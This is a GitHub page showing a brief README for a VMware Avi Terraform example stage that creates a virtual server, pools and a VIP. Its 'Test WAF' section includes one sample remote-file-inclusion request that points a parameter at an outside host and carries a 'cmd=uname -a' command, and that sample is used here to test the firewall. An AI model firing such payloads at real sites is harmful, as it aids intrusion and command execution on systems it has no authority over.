href="/vmware/terraform-provider-avi/tree/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app"><span>6_avi_app</span></a></span><span class="separator">/</span><strong class="final-path">README.adoc</strong>
      </h2>
      <a href="/vmware/terraform-provider-avi/find/2d7d39e536a50fea70fdad2828540b6f04301807"
            class="js-pjax-capture-input btn mr-2 d-none d-md-block"
            data-pjax
            data-hotkey="t">
        Go to file
      </a>

      <details id="blob-more-options-details" data-view-component="true" class="details-overlay details-reset position-relative">
  <summary role="button" data-view-component="true" class="btn">
  
            <svg aria-label="More options" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-kebab-horizontal">
    <path d="M8 9a1.5 1.5 0 100-3 1.5 1.5 0 000 3zM1.5 9a1.5 1.5 0 100-3 1.5 1.5 0 000 3zm13 0a1.5 1.5 0 100-3 1.5 1.5 0 000 3z"></path>
</svg>

  

</summary>
  <div data-view-component="true">          <ul class="dropdown-menu dropdown-menu-sw">
            <li class="d-block d-md-none">
              <a class="dropdown-item d-flex flex-items-baseline" data-hydro-click="{&quot;event_type&quot;:&quot;repository.click&quot;,&quot;payload&quot;:{&quot;target&quot;:&quot;FIND_FILE_BUTTON&quot;,&quot;repository_id&quot;:196468806,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="ad166f5041d42b1d202727edf381efb3106a4067f50463a7ad57b4c9a29b50ef" data-ga-click="Repository, find file, location:repo overview" data-hotkey="t" data-pjax="true" href="/vmware/terraform-provider-avi/find/2d7d39e536a50fea70fdad2828540b6f04301807">
                <span class="flex-auto">Go to file</span>
                <span class="text-small color-fg-muted" aria-hidden="true">T</span>
</a>            </li>
            <li data-toggle-for="blob-more-options-details">
              <button data-toggle-for="jumpto-line-details-dialog" type="button" data-view-component="true" class="dropdown-item btn-link">
  
  
                <span class="d-flex flex-items-baseline">
                  <span class="flex-auto">Go to line</span>
                  <span class="text-small color-fg-muted" aria-hidden="true">L</span>
                </span>

  

</button>            </li>
            <li class="dropdown-divider" role="none"></li>
            <li>
              <clipboard-copy data-toggle-for="blob-more-options-details" aria-label="Copy path" value="examples/aws/cluster_stages/6_avi_app/README.adoc" data-view-component="true" class="dropdown-item cursor-pointer">
    
                Copy path

</clipboard-copy>            </li>
            <li>
              <clipboard-copy data-toggle-for="blob-more-options-details" aria-label="Copy permalink" value="https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc" data-view-component="true" class="dropdown-item cursor-pointer">
    
                <span class="d-flex flex-items-baseline">
                  <span class="flex-auto">Copy permalink</span>
                </span>

</clipboard-copy>            </li>
          </ul>
</div>
</details>    </div>




    <div class="Box d-flex flex-column flex-shrink-0 mb-3">
      <include-fragment src="/vmware/terraform-provider-avi/contributors/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc" class="commit-loader">
        <div class="Box-header d-flex flex-items-center">
          <div class="Skeleton avatar avatar-user flex-shrink-0 ml-n1 mr-n1 mt-n1 mb-n1" style="width:24px;height:24px;"></div>
          <div class="Skeleton Skeleton--text col-5 ml-2">&nbsp;</div>
        </div>

        <div class="Box-body d-flex flex-items-center" >
          <div class="Skeleton Skeleton--text col-1">&nbsp;</div>
          <span class="color-fg-danger h6 loader-error">Cannot retrieve contributors at this time</span>
        </div>
</include-fragment>    </div>








    <readme-toc>

    <div data-target="readme-toc.content" class="Box mt-3 position-relative">
      
  <div
    class="Box-header blob-header js-sticky js-position-sticky top-0 p-2 d-flex flex-shrink-0 flex-md-row flex-items-center"
    style="position: sticky; z-index: 1;"
  >

      <details
  data-target="readme-toc.trigger"
  data-menu-hydro-click="{&quot;event_type&quot;:&quot;repository_toc_menu.click&quot;,&quot;payload&quot;:{&quot;target&quot;:&quot;trigger&quot;,&quot;repository_id&quot;:196468806,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}"
  data-menu-hydro-click-hmac="a5225b45ad4e69e1c11deb357116de4eaa2ee2a495e300f6caa5bfb284abb74e"
  class="dropdown details-reset details-overlay"
>
  <summary
    class="btn btn-octicon m-0 mr-2 p-2"
    aria-haspopup="true"
    aria-label="Table of Contents">
    <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-list-unordered">
    <path fill-rule="evenodd" d="M2 4a1 1 0 100-2 1 1 0 000 2zm3.75-1.5a.75.75 0 000 1.5h8.5a.75.75 0 000-1.5h-8.5zm0 5a.75.75 0 000 1.5h8.5a.75.75 0 000-1.5h-8.5zm0 5a.75.75 0 000 1.5h8.5a.75.75 0 000-1.5h-8.5zM3 8a1 1 0 11-2 0 1 1 0 012 0zm-1 6a1 1 0 100-2 1 1 0 000 2z"></path>
</svg>
  </summary>


  <details-menu class="SelectMenu" role="menu">
    <div class="SelectMenu-modal rounded-3 mt-1" style="max-height:340px;">


      <div class="SelectMenu-list SelectMenu-list--borderless p-2" style="overscroll-behavior: contain;">
          <a role="menuitem" class="filter-item SelectMenu-item py-1 " style="padding-left: 24px;" data-action="click:readme-toc#blur" data-targets="readme-toc.entries" data-hydro-click="{&quot;event_type&quot;:&quot;repository_toc_menu.click&quot;,&quot;payload&quot;:{&quot;target&quot;:&quot;entry&quot;,&quot;repository_id&quot;:196468806,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="341c98a4265e1c2590aa7aea8be95e9672c6f8178bab6a9a9821b54cc2768812" href="#apps-deployment">Apps deployment</a>
          <a role="menuitem" class="filter-item SelectMenu-item py-1 " style="padding-left: 36px;" data-action="click:readme-toc#blur" data-targets="readme-toc.entries" data-hydro-click="{&quot;event_type&quot;:&quot;repository_toc_menu.click&quot;,&quot;payload&quot;:{&quot;target&quot;:&quot;entry&quot;,&quot;repository_id&quot;:196468806,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="341c98a4265e1c2590aa7aea8be95e9672c6f8178bab6a9a9821b54cc2768812" href="#test-waf">Test WAF</a>
      </div>
    </div>
  </details-menu>
</details>


  <div class="text-mono f6 flex-auto pr-3 flex-order-2 flex-md-order-1">
      <include-fragment src="/vmware/terraform-provider-avi/codeowners/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc"></include-fragment>

      14 lines (10 sloc)
      <span class="file-info-divider"></span>
    296 Bytes
  </div>

  <div class="d-flex py-1 py-md-0 flex-auto flex-order-1 flex-md-order-2 flex-sm-grow-0 flex-justify-between hide-sm hide-md">
      

    <div class="BtnGroup">
      <a href="/vmware/terraform-provider-avi/raw/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc" id="raw-url" role="button" data-view-component="true" class="btn-sm btn BtnGroup-item">
  
  Raw
  

</a>
        <a href="/vmware/terraform-provider-avi/blame/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc" data-hotkey="b" role="button" data-view-component="true" class="js-update-url-with-hash btn-sm btn BtnGroup-item">
  
  Blame
  

</a>
    </div>

    <div>
          <button class="btn-octicon disabled tooltipped tooltipped-nw js-remove-unless-platform"
             data-platforms="windows,mac" type="button"  disabled
             aria-label="You must be on a branch to open this file in GitHub Desktop">
              <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-device-desktop">
    <path fill-rule="evenodd" d="M1.75 2.5h12.5a.25.25 0 01.25.25v7.5a.25.25 0 01-.25.25H1.75a.25.25 0 01-.25-.25v-7.5a.25.25 0 01.25-.25zM14.25 1H1.75A1.75 1.75 0 000 2.75v7.5C0 11.216.784 12 1.75 12h3.727c-.1 1.041-.52 1.872-1.292 2.757A.75.75 0 004.75 16h6.5a.75.75 0 00.565-1.243c-.772-.885-1.193-1.716-1.292-2.757h3.727A1.75 1.75 0 0016 10.25v-7.5A1.75 1.75 0 0014.25 1zM9.018 12H6.982a5.72 5.72 0 01-.765 2.5h3.566a5.72 5.72 0 01-.765-2.5z"></path>
</svg>
          </button>

        
          <a href="/login?return_to=https%3A%2F%2Fgithub.com%2Fvmware%2Fterraform-provider-avi%2Fblob%2F2d7d39e536a50fea70fdad2828540b6f04301807%2Fexamples%2Faws%2Fcluster_stages%2F6_avi_app%2FREADME.adoc" class="btn-octicon disabled tooltipped tooltipped-nw"
            aria-label="You must be signed in to make or propose changes">
            <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-pencil">
    <path fill-rule="evenodd" d="M11.013 1.427a1.75 1.75 0 012.474 0l1.086 1.086a1.75 1.75 0 010 2.474l-8.61 8.61c-.21.21-.47.364-.756.445l-3.251.93a.75.75 0 01-.927-.928l.929-3.25a1.75 1.75 0 01.445-.758l8.61-8.61zm1.414 1.06a.25.25 0 00-.354 0L10.811 3.75l1.439 1.44 1.263-1.263a.25.25 0 000-.354l-1.086-1.086zM11.189 6.25L9.75 4.81l-6.286 6.287a.25.25 0 00-.064.108l-.558 1.953 1.953-.558a.249.249 0 00.108-.064l6.286-6.286z"></path>
</svg>
          </a>
          <a href="/login?return_to=https%3A%2F%2Fgithub.com%2Fvmware%2Fterraform-provider-avi%2Fblob%2F2d7d39e536a50fea70fdad2828540b6f04301807%2Fexamples%2Faws%2Fcluster_stages%2F6_avi_app%2FREADME.adoc" class="btn-octicon btn-octicon-danger disabled tooltipped tooltipped-nw"
            aria-label="You must be signed in to make or propose changes">
            <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-trash">
    <path fill-rule="evenodd" d="M6.5 1.75a.25.25 0 01.25-.25h2.5a.25.25 0 01.25.25V3h-3V1.75zm4.5 0V3h2.25a.75.75 0 010 1.5H2.75a.75.75 0 010-1.5H5V1.75C5 .784 5.784 0 6.75 0h2.5C10.216 0 11 .784 11 1.75zM4.496 6.675a.75.75 0 10-1.492.15l.66 6.6A1.75 1.75 0 005.405 15h5.19c.9 0 1.652-.681 1.741-1.576l.66-6.6a.75.75 0 00-1.492-.149l-.66 6.6a.25.25 0 01-.249.225h-5.19a.25.25 0 01-.249-.225l-.66-6.6z"></path>
</svg>
          </a>
    </div>
  </div>

    <div class="d-flex hide-lg hide-xl flex-order-2 flex-grow-0">
      <details class="dropdown details-reset details-overlay d-inline-block">
        <summary class="btn-octicon p-2" aria-haspopup="true" aria-label="possible actions">
          <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-kebab-horizontal">
    <path d="M8 9a1.5 1.5 0 100-3 1.5 1.5 0 000 3zM1.5 9a1.5 1.5 0 100-3 1.5 1.5 0 000 3zm13 0a1.5 1.5 0 100-3 1.5 1.5 0 000 3z"></path>
</svg>
        </summary>

        <ul class="dropdown-menu dropdown-menu-sw" style="width: 175px">
            <li>
            </li>
          <li>
            <a class="dropdown-item" href="/vmware/terraform-provider-avi/raw/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc">
              View raw
            </a>
          </li>
            <li>
                          </li>
            <li>
              <a class="dropdown-item" href="/vmware/terraform-provider-avi/blame/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc">
                View blame
              </a>
            </li>

        </ul>
      </details>
    </div>
</div>


        <div id="readme" class="Box-body readme blob js-code-block-container p-5 p-xl-6 gist-border-0">
    <article class="markdown-body entry-content container-lg" itemprop="text"><div dir="auto">
<h2 id="user-content-apps-deployment" dir="auto"><a id="user-content-apps-deployment" class="anchor" aria-hidden="true" href="#apps-deployment"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Apps deployment</h2>
<div dir="auto">
<div dir="auto">
<p dir="auto">This part of the code does the following:</p>
</div>
<div dir="auto">
<ul dir="auto">
<li>
<p dir="auto">Creates a Virtual Server</p>
</li>
<li>
<p dir="auto">Creates 3 Pools</p>
</li>
<li>
<p dir="auto">Creates a VS VIP</p>
</li>
</ul>
</div>
<div dir="auto">
<h3 id="user-content-test-waf" dir="auto"><a id="user-content-test-waf" class="anchor" aria-hidden="true" href="#test-waf"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Test WAF</h3>
<div dir="auto">
<p dir="auto">here is an example string to pass which will show up in the WAF section</p>
</div>
<div dir="auto">
<div dir="auto">
<pre>uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&amp;cmd=uname%20-a</pre>
</div>
</div>
</div>
</div>
</div></article>
  </div>

    </div>

  </readme-toc>

  

  <details class="details-reset details-overlay details-overlay-dark" id="jumpto-line-details-dialog">
    <summary data-hotkey="l" aria-label="Jump to line"></summary>
    <details-dialog class="Box Box--overlay d-flex flex-column anim-fade-in fast linejump" aria-label="Jump to line">
      <!-- '"` --><!-- </textarea></xmp> --></option></form><form class="js-jump-to-line-form Box-body d-flex" action="" accept-charset="UTF-8" method="get">
        <input class="form-control flex-auto mr-3 linejump-input js-jump-to-line-field" type="text" placeholder="Jump to line&hellip;" aria-label="Jump to line" autofocus>
        <button data-close-dialog="" type="submit" data-view-component="true" class="btn">
  
  Go
  

</button>
</form>    </details-dialog>
  </details>


</div>



  </div>
</div>

    </main>
  </div>

  </div>

            
<div class="footer container-xl width-full p-responsive" role="contentinfo">
  <div class="position-relative d-flex flex-row-reverse flex-lg-row flex-wrap flex-lg-nowrap flex-justify-center flex-lg-justify-between pt-6 pb-2 mt-6 f6 color-fg-muted border-top color-border-muted ">
    <ul class="list-style-none d-flex flex-wrap col-12 col-lg-5 flex-justify-center flex-lg-justify-between mb-2 mb-lg-0">
      <li class="mr-3 mr-lg-0">&copy; 2021 GitHub, Inc.</li>
        <li class="mr-3 mr-lg-0"><a href="https://docs.github.com/en/github/site-policy/github-terms-of-service" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to terms&quot;,&quot;label&quot;:&quot;text:terms&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="c7cc5fb4f3837149b2a297215ab3ea7fc0a4b76b839739508da45db662e1f8d2" data-analytics-event="{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to terms&quot;,&quot;label&quot;:&quot;text:terms&quot;}">Terms</a></li>
        <li class="mr-3 mr-lg-0"><a href="https://docs.github.com/en/github/site-policy/github-privacy-statement" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to privacy&quot;,&quot;label&quot;:&quot;text:privacy&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="618bab76a3689cbb38532b14311bac0ee6c75f7b79f2c610a186841f89891361" data-analytics-event="{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to privacy&quot;,&quot;label&quot;:&quot;text:privacy&quot;}">Privacy</a></li>
        <li class="mr-3 mr-lg-0"><a data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to security&quot;,&quot;label&quot;:&quot;text:security&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="d6d1f80ccc5c6ba97d50e87a0702eeaa2b90f1e234bceb05fd84f0e02bcb6093" data-analytics-event="{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to security&quot;,&quot;label&quot;:&quot;text:security&quot;}" href="https://github.com/security">Security</a></li>
        <li class="mr-3 mr-lg-0"><a href="https://www.githubstatus.com/" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to status&quot;,&quot;label&quot;:&quot;text:status&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="c1c1523cbce6916c37e47848d81a562e494db3bd8bc9d43dfd20a8959823ed61" data-analytics-event="{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to status&quot;,&quot;label&quot;:&quot;text:status&quot;}">Status</a></li>
        <li><a data-ga-click="Footer, go to help, text:Docs" href="https://docs.github.com">Docs</a></li>
    </ul>

    <a aria-label="Homepage" title="GitHub" class="footer-octicon d-none d-lg-block mx-lg-4" href="https://github.com">
      <svg aria-hidden="true" height="24" viewBox="0 0 16 16" version="1.1" width="24" data-view-component="true" class="octicon octicon-mark-github">
    <path fill-rule="evenodd" d="M8 0C3.58 0 0 3.58 0 8c0 3.54 2.29 6.53 5.47 7.59.4.07.55-.17.55-.38 0-.19-.01-.82-.01-1.49-2.01.37-2.53-.49-2.69-.94-.09-.23-.48-.94-.82-1.13-.28-.15-.68-.52-.01-.53.63-.01 1.08.58 1.23.82.72 1.21 1.87.87 2.33.66.07-.52.28-.87.51-1.07-1.78-.2-3.64-.89-3.64-3.95 0-.87.31-1.59.82-2.15-.08-.2-.36-1.02.08-2.12 0 0 .67-.21 2.2.82.64-.18 1.32-.27 2-.27.68 0 1.36.09 2 .27 1.53-1.04 2.2-.82 2.2-.82.44 1.1.16 1.92.08 2.12.51.56.82 1.27.82 2.15 0 3.07-1.87 3.75-3.65 3.95.29.25.54.73.54 1.48 0 1.07-.01 1.93-.01 2.2 0 .21.15.46.55.38A8.013 8.013 0 0016 8c0-4.42-3.58-8-8-8z"></path>
</svg>
</a>
    <ul class="list-style-none d-flex flex-wrap col-12 col-lg-5 flex-justify-center flex-lg-justify-between mb-2 mb-lg-0">
        <li class="mr-3 mr-lg-0"><a href="https://support.github.com?tags=dotcom-footer" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to contact&quot;,&quot;label&quot;:&quot;text:contact&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="ada2359878e4ee25bfe38a9b6838802350085aeb787668eab855208e085e767a" data-analytics-event="{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to contact&quot;,&quot;label&quot;:&quot;text:contact&quot;}">Contact GitHub</a></li>
        <li class="mr-3 mr-lg-0"><a href="https://github.com/pricing" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to Pricing&quot;,&quot;label&quot;:&quot;text:Pricing&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="8c1167e0ab9040416346b815826813afb3e2e6cd436342422c97b1a4bdafc01d" data-analytics-event="{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to Pricing&quot;,&quot;label&quot;:&quot;text:Pricing&quot;}">Pricing</a></li>
      <li class="mr-3 mr-lg-0"><a href="https://docs.github.com" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to api&quot;,&quot;label&quot;:&quot;text:api&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="3e27fb98df4a25fd43477f19d2d1816e044fcf520bdd588814320d0ae845948b" data-analytics-event="{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to api&quot;,&quot;label&quot;:&quot;text:api&quot;}">API</a></li>
      <li class="mr-3 mr-lg-0"><a href="https://services.github.com" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to training&quot;,&quot;label&quot;:&quot;text:training&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="f06b32650f905da53062b3f96ed093c9ae6666f94c9406299b37ac2880012bba" data-analytics-event="{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to training&quot;,&quot;label&quot;:&quot;text:training&quot;}">Training</a></li>
        <li class="mr-3 mr-lg-0"><a href="https://github.blog" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to blog&quot;,&quot;label&quot;:&quot;text:blog&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="a8607604252f27feb7f79e96240e5b48d56f011aa215f73f5cb0bcfca84b468d" data-analytics-event="{&quot;category&quot;:&quot;Footer&quot;,&quot;action&quot;:&quot;go to blog&quot;,&quot;label&quot;:&quot;text:blog&quot;}">Blog</a></li>
        <li><a data-ga-click="Footer, go to about, text:about" href="https://github.com/about">About</a></li>
    </ul>
  </div>
  <div class="d-flex flex-justify-center pb-6">
    <span class="f6 color-fg-muted"></span>
  </div>
</div>



  <div id="ajax-error-message" class="ajax-error-message flash flash-error" hidden>
    <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-alert">
    <path fill-rule="evenodd" d="M8.22 1.754a.25.25 0 00-.44 0L1.698 13.132a.25.25 0 00.22.368h12.164a.25.25 0 00.22-.368L8.22 1.754zm-1.763-.707c.659-1.234 2.427-1.234 3.086 0l6.082 11.378A1.75 1.75 0 0114.082 15H1.918a1.75 1.75 0 01-1.543-2.575L6.457 1.047zM9 11a1 1 0 11-2 0 1 1 0 012 0zm-.25-5.25a.75.75 0 00-1.5 0v2.5a.75.75 0 001.5 0v-2.5z"></path>
</svg>
    <button type="button" class="flash-close js-ajax-error-dismiss" aria-label="Dismiss error">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-x">
    <path fill-rule="evenodd" d="M3.72 3.72a.75.75 0 011.06 0L8 6.94l3.22-3.22a.75.75 0 111.06 1.06L9.06 8l3.22 3.22a.75.75 0 11-1.06 1.06L8 9.06l-3.22 3.22a.75.75 0 01-1.06-1.06L6.94 8 3.72 4.78a.75.75 0 010-1.06z"></path>
</svg>
    </button>
    You can’t perform that action at this time.
  </div>

  <div class="js-stale-session-flash flash flash-warn flash-banner" hidden
    >
    <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-alert">
    <path fill-rule="evenodd" d="M8.22 1.754a.25.25 0 00-.44 0L1.698 13.132a.25.25 0 00.22.368h12.164a.25.25 0 00.22-.368L8.22 1.754zm-1.763-.707c.659-1.234 2.427-1.234 3.086 0l6.082 11.378A1.75 1.75 0 0114.082 15H1.918a1.75 1.75 0 01-1.543-2.575L6.457 1.047zM9 11a1 1 0 11-2 0 1 1 0 012 0zm-.25-5.25a.75.75 0 00-1.5 0v2.5a.75.75 0 001.5 0v-2.5z"></path>
</svg>
    <span class="js-stale-session-flash-signed-in" hidden>You signed in with another tab or window. <a href="">Reload</a> to refresh your session.</span>
    <span class="js-stale-session-flash-signed-out" hidden>You signed out in another tab or window. <a href="">Reload</a> to refresh your session.</span>
  </div>
    <template id="site-details-dialog">
  <details class="details-reset details-overlay details-overlay-dark lh-default color-fg-default hx_rsm" open>
    <summary role="button" aria-label="Close dialog"></summary>
    <details-dialog class="Box Box--overlay d-flex flex-column anim-fade-in fast hx_rsm-dialog hx_rsm-modal">
      <button class="Box-btn-octicon m-0 btn-octicon position-absolute right-0 top-0" type="button" aria-label="Close dialog" data-close-dialog>
        <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-x">
    <path fill-rule="evenodd" d="M3.72 3.72a.75.75 0 011.06 0L8 6.94l3.22-3.22a.75.75 0 111.06 1.06L9.06 8l3.22 3.22a.75.75 0 11-1.06 1.06L8 9.06l-3.22 3.22a.75.75 0 01-1.06-1.06L6.94 8 3.72 4.78a.75.75 0 010-1.06z"></path>
</svg>
      </button>
      <div class="octocat-spinner my-6 js-details-dialog-spinner"></div>
    </details-dialog>
  </details>
</template>

    <div class="Popover js-hovercard-content position-absolute" style="display: none; outline: none;" tabindex="0">
  <div class="Popover-message Popover-message--bottom-left Popover-message--large Box color-shadow-large" style="width:360px;">
  </div>
</div>

    <template id="snippet-clipboard-copy-button">
  <div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-fg-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div>
</template>




  </body>
</html>

